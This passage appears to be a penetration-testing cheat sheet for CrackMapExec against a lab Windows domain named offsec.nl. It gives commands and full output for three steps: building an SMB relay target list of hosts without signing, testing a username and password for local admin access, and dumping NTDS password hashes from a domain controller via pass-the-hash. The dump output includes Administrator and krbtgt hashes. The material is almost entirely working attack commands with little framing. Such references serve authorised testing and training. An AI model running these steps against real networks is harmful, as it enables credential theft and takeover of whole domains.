 #### Generate target list where targets do not require signing (SMB)

```plain
$ crackmapexec smb 192.168.10.0/24 --gen-relay-list list
SMB         192.168.10.1    445    SRV2K8R2         [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:SRV2K8R2) (domain:offsec.nl) (signing:True) (SMBv1:True)
SMB         192.168.10.2    445    SRV2016          [*] Windows Server 2016 Standard 14393 x64 (name:SRV2016) (domain:offsec.nl) (signing:True) (SMBv1:True)
SMB         192.168.10.3    445    WIN10            [*] Windows 10.0 Build 19041 x64 (name:WIN10) (domain:offsec.nl) (signing:False) (SMBv1:False)

$ cat list
192.168.10.3
```

#### Check targets for ability to log in, and check local admin

When '(Pwn3d!)' is shown, the user is 'local admin' on the target server

```plain
$ ./cme smb targets -u johndo -p Welkom1234 -d offsec
SMB         10.10.10.10     445    DC2016           [*] Windows Server 2016 Standard 14393 (name:DC2016) (domain:offsec) (signing:True) (SMBv1:True)
SMB         10.10.10.16     445    DC2008R2         [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 (name:DC2008R2) (domain:offsec) (signing:True) (SMBv1:True)
SMB         10.10.10.11     445    DC2019           [*] Windows 10.0 Build 17763 (name:DC2019) (domain:offsec) (signing:True) (SMBv1:False)
SMB         10.10.10.10     445    DC2016           [+] offsec\johndo:Welkom1234 (Pwn3d!)
SMB         10.10.10.16     445    DC2008R2         [+] offsec\johndo:Welkom1234
SMB         10.10.10.11     445    DC2019           [+] offsec\johndo:Welkom1234
```

### Dump NTDS

```plain
$ cme smb 10.10.10.10 -u johndo -H caec1e1d755119a15bfb6cd3d5994305 --ntds
SMB         10.10.10.10     445    DC2016           [*] Windows Server 2016 Standard 14393 x64 (name:DC2016) (domain:offsec.nl) (signing:True) (SMBv1:True)
SMB         10.10.10.10     445    DC2016           [+] offsec.nl\johndo:Welkom1234 (Pwn3d!)
SMB         10.10.10.10     445    DC2016           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.10     445    DC2016           Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
SMB         10.10.10.10     445    DC2016           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.10     445    DC2016           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
SMB         10.10.10.10     445    DC2016           offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
SMB         10.10.10.10     445    DC2016           offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:caec1e1d755119a15bfb6cd3d5994305:::
```
